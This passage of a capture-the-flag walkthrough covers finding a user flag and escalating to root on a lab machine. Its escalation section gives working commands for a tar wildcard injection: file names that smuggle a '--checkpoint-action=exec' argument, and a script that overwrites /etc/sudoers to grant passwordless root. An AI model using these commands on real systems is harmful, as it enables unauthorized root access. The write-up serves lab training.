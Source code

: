 Lets look around a little bit. There is a milesdyson folder in the home directory.

![image](https://user-images.githubusercontent.com/115602464/195760575-9c06e4d8-6219-4139-9acd-c3e972f93b7a.png)

The user flag is inside user.txt. 🚩

# Escalation

The backups folder contains a backup.sh file:

![image](https://user-images.githubusercontent.com/115602464/195760730-62664aec-e164-4225-9be7-dccf7a976c8d.png)

This shell script has a wildcard exploit. [More info here](https://materials.rangeforce.com/tutorial/2019/11/08/Linux-PrivEsc-Wildcard/)

We can exploit this by changing into the /var/www/html directory and running:

```
echo 'echo "www-data ALL=(root) NOPASSWD: ALL" > /etc/sudoers' > privesc.sh
echo "/var/www/html"  > "--checkpoint-action=exec=sh privesc.sh"
echo "/var/www/html"  > --checkpoint=1
```

Lets upgrade our shell a little bit to be able to run `sudo -l`.

```
python -c 'import pty;pty.spawn("/bin/bash")';
```

After a couple of minutes we run `sudo -l`:

![image](https://user-images.githubusercontent.com/115602464/195761720-4a9a84b6-9183-41e3-a8ba-d12f80c505b4.png)

Great! Lets get the root.txt file and get our last flag! 🚩

![image](https://user-images.githubusercontent.com/115602464/195762012-08b427cb-439d-4f07-a25a-97d0739a97f1.png)
